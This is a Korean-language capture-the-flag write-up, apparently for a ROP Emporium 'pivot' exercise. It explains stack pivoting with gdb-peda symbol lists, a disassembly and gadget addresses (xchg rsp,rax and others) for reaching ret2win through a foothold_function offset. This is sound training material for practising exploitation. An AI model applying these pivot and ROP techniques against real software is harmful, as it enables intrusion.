 두번째 입력은 정상적으로 rbp-0x20에 받는 대신 사이즈가 좀 작다.

아마 문제 이름처럼 stack pivoting으로 풀어야 하는것 같다.

실행할 rop chain을 첫번째 입력에 넣고, 두번째 입력에서 stack pointer를 첫번째 버퍼의 위치로 변경했다.

이제 스택은 바꿨고 flag는 어떻게 하느냐, 이건 문제에서 제공하는 커스텀 libc인 libpivot를 사용했다.

libpivot.so:
```bash
gdb-peda$ info function
All defined functions:

Non-debugging symbols:
0x00000000000007f8  _init
...
0x0000000000000970  foothold_function
...
0x0000000000000abe  ret2win
0x0000000000000ad8  _fini
```
ret2win으로 리턴하면 된다.
```bash
gdb-peda$ elfsymbol
Found 10 symbols
free@plt = 0x4007f0
puts@plt = 0x400800
printf@plt = 0x400810
memset@plt = 0x400820
__libc_start_main@plt = 0x400830
fgets@plt = 0x400840
foothold_function@plt = 0x400850
...
```
```nasm
gdb-peda$ disas foothold_function
Dump of assembler code for function foothold_function:
   0x0000000000000970 <+0>:     push   rbp
   0x0000000000000971 <+1>:     mov    rbp,rsp
   0x0000000000000974 <+4>:     lea    rdi,[rip+0x16d]        # 0xae8
   0x000000000000097b <+11>:    mov    eax,0x0
   0x0000000000000980 <+16>:    call   0x840 <printf@plt>
   0x0000000000000985 <+21>:    nop
   0x0000000000000986 <+22>:    pop    rbp
   0x0000000000000987 <+23>:    ret
End of assembler dump.
```
foothold_function 함수는 메시지를 출력해준다.

여기서 알아야 할 점은 foothold_function + 0x14e에 ret2win이 있다는것.

```nasm
Dump of assembler code for function usefulGadgets:
   0x0000000000400b00 <+0>:     pop    rax
   0x0000000000400b01 <+1>:     ret
   0x0000000000400b02 <+2>:     xchg   rsp,rax
   0x0000000000400b04 <+4>:     ret
   0x0000000000400b05 <+5>:     mov    rax,QWORD PTR [rax]
   0x0000000000400b08 <+8>:     ret
   0x0000000000400b09 <+9>:     add    rax,rbp
   0x0000000000400b0c <+12>:    ret
   0x0000000000400b0d <+13>:    nop    DWORD PTR [rax]
End of assembler dump.
```
```
0x00400900: pop rbp ; ret  ;  (1 found)
0x0040098e: call rax ;  (1 found)
```

